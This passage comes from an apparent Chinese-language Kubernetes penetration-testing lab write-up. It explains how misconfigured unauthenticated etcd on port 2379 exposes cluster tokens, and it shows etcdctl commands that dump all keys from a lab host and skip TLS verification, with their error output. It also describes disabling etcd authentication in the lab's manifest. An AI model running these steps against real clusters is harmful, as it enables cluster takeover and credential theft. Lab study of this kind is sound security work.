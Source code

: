 还是没权限，但能执行命令了也许getshell了，如果获得了权限接下来的操作和攻击8080端口类似

### 攻击2379端口

原理  
etcd组件默认监听2379端口：默认通过证书认证，主要存放节点的信息，如一些token和证书。  
kubernetes的master会自动安装etcd v3(注意版本)用来存储数据，如果管理员进行了错误的配置，导致etcd未授权访问的情况，那么攻击者就可以从etcd中拿到kubernetes的认证鉴权token，从而接管集群。  
利用  
etcd2和etcd3是不兼容的，两者的api参数也不一样。**k8s现在使用的是etcd v3**，**必须提供ca、key、cert**，否则会出现Error: context deadline exceeded。  
nmap虽然没有扫到node01和node02的2379端口，但执行命令后依旧可以得到回显，可以看到Error: context deadline exceeded。

```plain
etcdctl --endpoints=https://192.168.108.100:2379 get / --prefix --keys-only
#得到的回显
{"level":"warn","ts":"2023-11-22T10:34:49.456+0800","caller":"clientv3/retry_interceptor.go:62","msg":"retrying of unary invoker failed","target":"endpoint://client-64f6a717-0ddc-4dc9-a1ca-a2097c19d93c/192.168.108.100:2379","attempt":0,"error":"rpc error: code = DeadlineExceeded desc = latest balancer error: all SubConns are in TransientFailure"}
Error: context deadline exceeded
```

[![](assets/1701678402-b916c884ddecacdbc7347b231c6279d2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130190920-e941a224-8f70-1.png)  
默认情况下需要授权才能访问，带上证书访问:

```plain
etcdctl --insecure-skip-tls-verify --insecure-transport=true --endpoints=https://192.168.108.100:2379 --cacert=ca.pem --key=etcd-client-key.pem --cert=etcd-client.pem endpoint health
```

但目前版本的2379端口不存在未授权，因此修改配置，配置文件：/etc/kubernetes/manifests/etcd.yaml，下图红框中的配置从true改为false或者注释掉  